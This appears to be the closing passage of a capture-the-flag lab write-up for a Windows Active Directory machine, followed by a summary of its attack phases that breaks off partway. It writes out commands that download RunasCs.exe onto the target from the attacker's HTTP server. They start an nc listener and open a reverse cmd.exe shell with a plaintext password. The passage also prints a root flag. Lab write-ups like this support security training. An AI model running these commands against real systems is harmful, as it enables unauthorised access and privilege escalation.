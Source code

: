Transfer RunasCs.exe on the machine on dir "C:\Users\M.SchoolBus"
https://github.com/antonioCoco/RunasCs/releases
```bash
python3 -m http.server 8080
```
Transfer the binary from our local machine to the target:
```shell
Invoke-WebRequest -Uri http://10.10.14.248:8080/RunasCs.exe -OutFile RunasCs.exe
```

we start our listener 
```shell
nc -lvnp 9999 
```
run the RunasCs binary
```shell
.\RunasCs.exe M.SchoolBus !suBcig@MehTed!R cmd.exe -r 10.10.14.248:9999
```
- Authenticates as user **`M.SchoolBus`** using plaintext password
- Launches a **command shell** (`cmd.exe`) in that user's security context
- Connects to IP **`10.10.14.248`** on port **`9999`**
- Redirects the shell's input and output over the network
**Result:** the listener on `10.10.14.248:9999` gets an **interactive shell**running as `M.SchoolBus`.

we got our shell, and grabbed the root flag 
![Pasted image 20250519235101](MediaFiles/Pasted%20image%2020250519235101.png)
```shell
1cd81a53f7669f142fa06dfe26f2b4a8
```
pwned 

----------------
# Summary

Here is the list of the steps simplified, per phase, for future reference and for quick reading: 

#### Reconnaissance
1. nmap scan -> chose ==http service== (port 80) to focus on
2. on the **web app's** login page found service ==version vulnerable to RCE==
#### Foothold
1. exploiting it gave ==shell== as `w.webservice` there
2. ==enumerated files and directories== and ==found database creds==
3. **connected** with those via the ==mysql== binary
4. ==enumerated the database==, found ==username== (f.frizzle) and password's plaintext ==hash== and ==salt==
5. used john with appropriate options to crack hash with salt, found pass 
6. ==tried win-rm== login for f.frizzle but no luck
7. updated my local ==kerberos config file==
8. ==generated ticket== for user f.frizzle
9. ==ssh via GSSAPI authentication== to user f.frizzle
10. grabbed user flag
#### Privesc
1. ==AD enumeration== revealed existence of a user with ==higher permissions== (M.SCHOOLBUS) to which f.frizzle has no permissions over
2. ==enumerated files and directories== and ==found recycle bin file==
3. the file contained a ==password==, but no username to associate it to